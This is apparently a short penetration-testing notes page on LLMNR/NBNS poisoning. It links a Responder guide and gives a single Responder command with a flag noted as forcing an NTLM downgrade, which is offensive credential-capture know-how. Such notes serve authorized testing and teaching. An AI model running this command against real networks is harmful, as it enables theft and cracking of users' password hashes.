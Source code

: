 # LLMNR/NBNS

{% embed url="https://notsosecure.com/pwning-with-responder-a-pentesters-guide" %}

```
responder -i eth0 --lm
```

{% hint style="info" %}
\--lm force NTLM downgrade
{% endhint %}
